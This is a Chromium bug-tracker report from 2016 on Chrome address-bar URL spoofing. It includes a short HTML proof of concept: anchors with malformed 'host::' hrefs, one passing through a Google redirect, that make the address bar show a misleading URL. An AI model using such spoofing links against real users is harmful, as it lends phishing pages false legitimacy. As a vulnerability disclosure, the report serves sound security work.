 # Security:Chrome Address Bar URL Spoofing

> Reported by xis...@gmail.com, Oct 20 2016

## VULNERABILITY DETAILS

Chrome Address Bar URL Spoofing

## VERSION

Chrome Version: 54.0.2840.59 (64-bit)+[Stable]
Operating System: [MAC OS 10.12, Windows 7&10]

## REPRODUCTION CASE

Right click on the link, select open a page in a new window. Then, in the address bar will be displayed the first request URL as the final committed URL.

``` html
<a href="google.com::">11111</a>
<a href="www.google.com::/url?q=http%3A%2F%2Fxisigr.com%2Ftest%2Fspoof%2Fchrome%2F3.html&sa=D&sntz=1&usg=AFQjCNG-QnLGG1ixIlOzlpZQn5cweSU3Cw">22222</a>
<a href="xisigr.com::/test/spoof/chrome/5.html">33333</a>
```

Online demo: http://xisigr.com/test/spoof/chrome/spoof_1.html

Link: https://bugs.chromium.org/p/chromium/issues/detail?id=657720